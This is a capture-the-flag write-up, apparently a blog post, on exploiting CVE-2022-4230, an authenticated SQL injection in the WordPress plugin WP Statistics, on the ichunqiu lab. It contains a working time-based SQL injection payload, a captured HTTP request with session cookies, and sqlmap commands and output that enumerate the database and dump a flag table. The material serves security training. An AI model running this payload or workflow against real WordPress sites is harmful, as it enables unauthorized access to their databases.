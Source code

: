 ```yaml
---
title: "CVE-2022-4230"
date: 2024-07-24
tags: ["春秋云镜","CVE"]
draft: false
---
```


<https://wpscan.com/vulnerability/a0e40cfd-b217-481c-8fc4-027a0a023312>


## WP Statistics &lt; 13.2.9 - Authenticated SQLi


### Description

The plugin does not escape a parameter, which could allow authenticated users to perform SQL Injection attacks. By default, the affected feature is available to users with the manage_options capability (admin+), however the plugin has a settings to allow low privilege users to access it as well.

### Proof of Concept

```http
Log in as a user allowed to View WP Statistic and get a nonce via 

https://example.com/wp-admin/admin-ajax.php?action=rest-nonce

, and use it in the URL below, which will be delayed by 5s:

http://example.com/wp-json/wp-statistics/v2/metabox?_wpnonce=NONCE&name=words&search_engine=aaa%27%20AND%20(SELECT%205671%20FROM%20(SELECT(SLEEP(5)))Mdgs)--%20HsBR
```

## 演示

环境: [春秋云镜 免费空间>CVE-2022-4230](https://yunjing.ichunqiu.com/cve/detail/1165)

### 1.登录

站点名称 test  尝试 用户名`test` 密码 `test`

![](https://static.guyu.pro/yunjing.ichunqiu.com/1165/1.webp)

![](https://static.guyu.pro/yunjing.ichunqiu.com/1165/2.webp)


### 2.验证

<http://eci-2zeem9trz06di7iavwqk.cloudeci1.ichunqiu.com/wp-admin/admin-ajax.php?action=rest-nonce>

![](https://static.guyu.pro/yunjing.ichunqiu.com/1165/3.webp)

获得`373ec6388f`

替换利用url的NONCE值为`373ec6388f`

<http://eci-2zeem9trz06di7iavwqk.cloudeci1.ichunqiu.com/wp-json/wp-statistics/v2/metabox?_wpnonce=373ec6388f&name=words&search_engine=aaa%27%20AND%20(SELECT%205671%20FROM%20(SELECT(SLEEP(5)))Mdgs)--%20HsBR>

![](https://static.guyu.pro/yunjing.ichunqiu.com/1165/4.webp)

### 3.利用

<http://eci-2zeem9trz06di7iavwqk.cloudeci1.ichunqiu.com/wp-json/wp-statistics/v2/metabox?_wpnonce=373ec6388f&name=words&search_engine=aaa> 因为要在已登录状态注入，需要带上cookie

![](https://static.guyu.pro/yunjing.ichunqiu.com/1165/5.webp)

保存为1165，在url地址参数`search_engine=aaa`后添加`*`，让sqlmap指定位置注入

```http
GET /wp-json/wp-statistics/v2/metabox?_wpnonce=373ec6388f&name=words&search_engine=aaa* HTTP/1.1
Host: eci-2zeem9trz06di7iavwqk.cloudeci1.ichunqiu.com
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_2d0601bd28de7d49818249cf35d95943=1721788611; Hm_lpvt_2d0601bd28de7d49818249cf35d95943=1721788611; HMACCOUNT=2484925BEB32E239; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_c2b05042e81e305748a3152f767ae796=test%7C1721961933%7C6aDuiQPvnYxV9n8rJoFMRrb2lLidmM44qJCWIkWBhpL%7C760092fb3e6b0d9fc2c20b27b5f932cc58550f89e95c485856a99d346212a418; wp-settings-time-1=1721789134
Connection: close
```

使用sqlmap注入

```bash
$ sqlmap -r 1165
[23:16:02] [INFO] parsing HTTP request from '1165'
custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q] y
[23:16:04] [INFO] testing connection to the target URL
[23:16:04] [INFO] testing if the target URL content is stable
[23:16:05] [INFO] target URL content is stable
[23:16:05] [INFO] testing if URI parameter '#1*' is dynamic
[23:16:05] [WARNING] URI parameter '#1*' does not appear to be dynamic
[23:16:05] [WARNING] heuristic (basic) test shows that URI parameter '#1*' might not be injectable
[23:16:05] [INFO] testing for SQL injection on URI parameter '#1*'
[23:16:05] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[23:16:06] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[23:16:06] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[23:16:07] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[23:16:08] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[23:16:08] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[23:16:09] [INFO] testing 'Generic inline queries'
[23:16:09] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[23:16:10] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[23:16:11] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[23:16:11] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[23:16:22] [INFO] URI parameter '#1*' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] y
[23:16:35] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[23:16:35] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[23:16:39] [INFO] checking if the injection point on URI parameter '#1*' is a false positive
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 75 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://eci-2zeem9trz06di7iavwqk.cloudeci1.ichunqiu.com/wp-json/wp-statistics/v2/metabox?_wpnonce=373ec6388f&name=words&search_engine=aaa' AND (SELECT 8907 FROM (SELECT(SLEEP(5)))nhIB) AND 'aFnu'='aFnu
---
[23:17:06] [INFO] the back-end DBMS is MySQL
[23:17:06] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
web application technology: PHP 7.4.33
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[23:17:49] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/eci-2zeem9trz06di7iavwqk.cloudeci1.ichunqiu.com'

$ sqlmap -r 1165 --batch --current-db
current database: 'wordpress'

$ sqlmap -r 1165 --batch --tables -D wordpress
[23:31:20] [INFO] retrieved: flag

$ sqlmap -r 1165 --batch --dump -D wordpress -T flag
Database: wordpress
Table: flag
[1 entry]
+--------------------------------------------+
| flag                                       |
+--------------------------------------------+
| flag{7f698f8b-2cde-4f19-ab79-5e96778812d4} |
+--------------------------------------------+
```

